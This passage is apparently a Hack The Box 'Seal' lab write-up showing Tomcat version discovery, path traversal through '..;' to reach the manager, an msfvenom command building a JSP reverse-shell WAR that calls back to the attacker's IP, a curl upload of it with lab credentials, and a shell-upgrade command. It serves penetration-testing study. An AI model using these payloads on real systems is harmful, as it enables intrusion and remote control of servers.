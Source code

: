 * Version
  * Apache Tomcat/9.0.31 (Ubuntu) 11.0.11+9-Ubuntu-0ubuntu2.20.04 Ubuntu Linux 5.4.0-80-generic amd64 seal 127.0.1.1
* Google for CVEs -- nothing promising
* Feroxbuster
  * Now hitting weird wildcards, which is a strong sign that [tomcat path traversal via reverse proxy mapping](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping) could be exploitable
  * Sure enough, we can hit [https://seal.htb/manager/status/..;/html](https://seal.htb/manager/status/..;/html)

Once we are in, take the war reverse shell onto the box!

> msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=10.10.14.2 LPORT=4445 -f war > shell.war

Remember to update requests to include the `..;`, i.e. [https://seal.htb/manager/html](https://seal.htb/manager/html) becomes [https://seal.htb/manager/status/..;/html](https://seal.htb/manager/status/..;/html)

> curl -X POST --upload-file shell.war -u 'tomcat:42MrHBf\*z8{Z%' "https://seal.htb/manager/status/..;/html/upload?org.apache.catalina.filters.CSRF\_NONCE=494B6B4F459CBAC9FF72075FC3391E29" -k

the response contains credentials in case we need them for later
```
<pre>
&lt;role rolename="manager-gui"/&gt;
&lt;user username="tomcat" password="s3cret" roles="manager-gui"/&gt;
</pre>
```
Here is the request sent to the server which spawns a shell

![](/assets/images/htb/seal/web10.png)

## Upgrading the Shell

To escape the limited shell we can use `script`
> SHELL=/bin/bash script -q /dev/null
